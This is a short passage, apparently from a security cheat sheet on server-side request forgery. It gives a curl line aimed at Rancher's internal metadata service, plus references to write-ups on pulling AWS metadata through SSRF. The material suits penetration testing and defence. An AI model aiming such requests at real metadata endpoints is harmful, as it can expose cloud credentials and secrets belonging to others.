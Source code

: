 ## SSRF URL for Rancher

```powershell
curl http://rancher-metadata/<version>/<path>
```

More info: <https://rancher.com/docs/rancher/v1.6/en/rancher-services/metadata-service/>

## References

* [Extracting AWS metadata via SSRF in Google Acquisition - tghawkins - December 13, 2017](https://web.archive.org/web/20180210093624/https://hawkinsecurity.com/2017/12/13/extracting-aws-metadata-via-ssrf-in-google-acquisition/)
* [Exploiting SSRF in AWS Elastic Beanstalk - Sunil Yadav - February 1, 2019](https://notsosecure.com/exploiting-ssrf-aws-elastic-beanstalk)

